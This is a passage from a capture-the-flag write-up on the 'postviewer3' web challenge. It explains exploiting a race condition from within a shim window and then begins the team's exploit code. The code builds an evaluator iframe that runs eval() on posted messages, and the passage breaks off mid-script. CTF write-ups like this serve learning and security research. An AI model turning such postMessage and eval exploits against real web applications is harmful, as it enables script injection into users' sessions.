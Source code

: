 Another thing is that we needed a reference to the postviewer3 window from within our shim, so the easiest thing was to do the race condition *inside the shim* (just open a new window). this is a graphic of how our exploit looked like in the end:

![](/assets/images/postviewer3-exploit.svg)

Full exploit code (shoutout to Qyn for writing most of it, I only helped to make the race condition work):
```html
<html>
  <body>
    <iframe id="lolframe"></iframe>
  </body>

  <script>
    const evaluatorHtml = `
<html>
  <head>
    <meta charset="utf-8">
    <title>Evaluator</title>

    <script>
      onmessage = e => {
        if(e.source !== parent) {
          throw /not parent/;
        };
        if(e.data.eval){
          eval(e.data.eval);
        }
      }
      onload = () => {
        parent.postMessage('loader ready','*');
      }
    \x3c/script>

    <style>
      body{
        padding: 0px;
        margin: 0px;
      }
      iframe{
        width: 100vw;
        height: 100vh;
        border: 0;
      }
      .spinner {
        background: url(https://storage.googleapis.com/gctf-postviewer/spinner.svg) center no-repeat;
      }
      .spinner iframe{
        opacity: 0.2
      }
    </style>
  </head>
  <body>
    <div id="container" class="spinner"></div>
  </body>
</html>
`;

    function arrayToBase36(arr) {
      return arr.reduce((a, b) => BigInt(256) * a + BigInt(b), BigInt(0)).toString(36);
    }

```